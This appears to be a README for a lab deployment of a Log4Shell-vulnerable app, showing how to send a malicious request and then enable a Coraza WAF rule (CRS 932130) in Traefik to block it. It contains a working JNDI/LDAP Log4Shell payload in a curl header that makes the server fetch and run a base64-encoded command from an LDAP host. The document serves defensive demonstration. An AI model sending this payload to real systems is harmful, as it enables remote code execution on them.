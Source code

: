 # log4shell vulnerable app

This example includes a log4shell vulnerable deployment.

## Getting started

Deploy the vulnerable app

```console
make deploy
```

Perform malicious requests:

```console
curl -i http://localhost -H 'X-Api-Version: ${jndi:ldap://vulapp:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

The log4shell vulnerable app will evidence there was an attempt to connect to a provided address:

```console
2024-03-12 01:02:10,826 http-nio-8080-exec-2 WARN Error looking up JNDI resource [ldap://localhost:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=]. javax.naming.CommunicationException: localhost:1389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
```

We can enable protection for such attacks by enabling CRS rule 932130 to look into `REQUEST_HEADERS`:

```console
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: ConfigMap
metadata:
  name: config
  namespace: traefik
data:
  config.yaml: |
    http:
      middlewares:
        waf:
          plugin:
            coraza:
              directives:
                - Include @recommended-conf
                - Include @crs-setup-conf
                - Include @owasp_crs/*.conf
                - SecRuleUpdateTargetById 932130 "REQUEST_HEADERS"
                - SecRuleEngine On
EOF
```
